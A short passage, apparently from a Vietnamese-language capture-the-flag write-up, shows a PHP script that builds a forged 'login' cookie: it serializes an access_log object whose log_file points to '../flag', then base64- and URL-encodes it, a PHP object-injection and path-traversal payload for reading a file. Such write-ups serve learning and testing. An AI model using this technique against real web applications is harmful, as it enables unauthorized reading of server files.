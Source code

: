 ![alt text](./images/image-92.png)

-- Thực hiện ý tưởng : 
+ Tạo cookie 'login' 
```
<?php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}
}
$ac=new access_log("../flag");
echo(urlencode(base64_encode(serialize($ac))));
?>
```

![alt text](./images/image-93.png)
